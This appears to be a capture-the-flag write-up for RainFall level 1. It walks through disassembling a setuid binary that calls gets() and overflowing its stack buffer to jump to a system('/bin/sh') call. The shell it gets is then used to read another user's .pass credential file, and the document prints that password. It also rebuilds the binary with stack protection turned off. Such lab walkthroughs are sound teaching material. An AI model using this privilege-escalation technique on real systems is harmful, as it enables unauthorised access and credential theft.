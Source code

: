 # Level 1

## Vulnerability

Stack overflow <br/>
[Owasp example](https://owasp.org/www-community/attacks/Buffer_overflow_attack)

## Context

```
level1@RainFall:~$ ls -l
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```
Note: the owner of this binary is level2. 

## Solution

Let's see what the binary does. 
```
level1@RainFall:~$ ./level1
[...]
```
It looks like it's waiting on input from the stdin. Let's take a look in gdb. 
```
level1@RainFall:~$ gdb ./level1
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>: 	and    $0xfffffff0,%esp
   0x08048486 <+6>: 	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb)
```
We can see here the binary calls the C function ```gets```, which copies a string from stdin to a buffer. 
Let's see if we can cause a buffer overflow. A buffer overflow allows us to change the flow of execution of the program.
```
level1@RainFall:~$ python -c 'print "a"*76' | ./level1
Illegal instruction (core dumped)
```
So we've effectively triggered a stack overflow here.
The next step is to look for where we can regain control

```objdump``` will give us a deeper look at the assembly instructions in this binary file. 
We use the ```-M intel``` flag for Intel syntax. 
```
level1@RainFall:~$  objdump -d -M intel level1
[...]
08048444 <run>:
[...]
8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
```
Here we find a run command and ```system()``` call that we can exploit. 
If we run system("/bin/sh"), [it will launch a shell](https://stackoverflow.com/questions/43294227/hijacking-system-bin-sh-to-run-arbitrary-commands) that will run with the same priveleges as the calling program. 


```
level1@RainFall:~$ (python -c 'print "a"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
So the password for level2 is ```53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77```

## Recreate Exploited Binary

As user level2, in /tmp, create and compile level1_source.c.
```
level2@RainFall:~$ cd /tmp
level2@RainFall:/tmp$ gcc level1_source.c -fno-stack-protector -o level1_source
```
Edit permissions including suid, then move the binary to home directory.
```
level2@RainFall:/tmp$ chmod u+s level1_source
level2@RainFall:/tmp$ chmod +wx ~; mv level1_source ~
```
Exit back to user level1, then run the binary.
```
level2@RainFall:/tmp$ exit
exit
level1@RainFall:~$ (python -c 'print "a"*76 + "\x64\x84\x04\x08"'; cat) | /home/user/level2/level1_source
```

